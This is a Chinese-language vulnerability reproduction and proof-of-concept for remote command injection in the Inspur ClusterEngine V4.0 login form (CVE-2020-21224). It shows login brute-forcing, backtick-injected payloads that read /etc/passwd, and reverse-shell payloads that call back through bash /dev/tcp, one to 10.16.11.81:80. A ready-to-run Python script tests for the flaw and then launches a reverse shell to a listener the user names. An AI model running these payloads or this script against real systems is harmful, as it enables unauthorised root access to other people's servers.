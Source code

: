 # 

# 浪潮ClusterEngineV4.0 远程命令执行漏洞 CVE-2020-21224

## 漏洞描述

浪潮服务器群集管理系统存在危险字符未过滤，导致远程命令执行

## 漏洞影响

```
浪潮ClusterEngineV4.0
```

## 网络测绘

```
title="TSCEV4.0"
```

## 漏洞复现

登录页面如下



![](./images/202202091847442.png)



由于登录页面没有发现验证码，进行账号爆破



当burpsuite爆破完成时，注意到POST数据中如果带有 ;' ，响应数据包发生异常。



![](./images/202202091847752.png)



通过响应包信息，猜测可能存在一个远程执行代码漏洞，并将此数据包放在repeater中，我发现如果发布数据中有



一个 ' ，系统将抛出异常。



![](./images/202202091847377.png)

![4](./images/202202091847382.png)



进一步测试时，我发现username参数或password任一参数如果包含 ' ，将引发此异常



![](./images/202202091847158.png)



定尝试发送 ' ' 来查看响应包。



![](./images/202202091848777.png)



我注意到 grep 命令错误，服务端的代码可能是这样



```shell
var1 = `grep xxxx` 
var2 = $(python -c "from crypt import crypt;print crypt('$username','$1$$var1')")
```



尝试发送 -V 和 --help 来查看响应包，响应包证实了猜测



![](./images/202202091848195.png)

![8](./images/202202091848197.png)



尝试读取  **/etc/passswd**



![](./images/202202091848409.png)



尝试列目录



![](./images/202202091848084.png)



确认存在一个远程执行命令执行漏洞，经过fuzz，得到以下payload



![](./images/202202091848053.png)

![12](./images/202202091848057.png)



反弹 shell



```shell
op=login&username=1 2\',\'1\'\); `bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.16.11.81%2F80%200%3E%261`
```



payload发送后, 在 kali linux 服务器上获取了一个 root 权限的 shell



![](./images/202202091848952.png)



上面是原文的测试思路，但经过重新测试之后发现还有另一种简单方法



```plain
POC测试(出现 root:x:0:0 则存在漏洞)
op=login&username=test`$(cat /etc/passwd)`

{"err":"/bin/sh: root:x:0:0:root:/root:/bin/bash: No such file or directory\n","exitcode":1,"out":"the user test does not exist\nerror:1\n"}

反弹shell
op=login&username=test`$(bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{IP}}%2F{PORT}%200%3E%261)`
```



![](./images/202202091849501.png)



## 漏洞POC



```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 浪潮ClusterEngineV4.0                                     \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mIP          >>> xxx.xxx.xxx.xxx:9999                              \033[0m')
    print('+  \033[36mPORT        >>> 9999                                              \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/login"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    }
    data = "op=login&username=test`$(cat /etc/passwd)`"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=4)
        etc_passwd = re.findall(r'\{"err":"/bin/sh: (.*?): No such', response.text)
        if response.status_code == 200 and "root:x:0:0" in response.text:
            print("\033[32m[o]    目标 {} 可能存在漏洞, 响应为:{} \033[0m".format(target_url, etc_passwd[0]))
            POC_2(target_url)
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

def POC_2(target_url):
    IP = str(input("\033[35m请输入监听IP   >>> \033[0m"))
    PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
    vuln_url = target_url + "/login"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    }
    data = "op=login&username=`bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{}%2F{}%200%3E%261`".format(IP, PORT)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False)
    except Exception as e:
        print("\033[31m[x] 目标 {} 请求失败 \033[0m".format(target_url))

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl    >>> \033[0m"))
    POC_1(target_url)
```



![](./images/202202091849410.png)
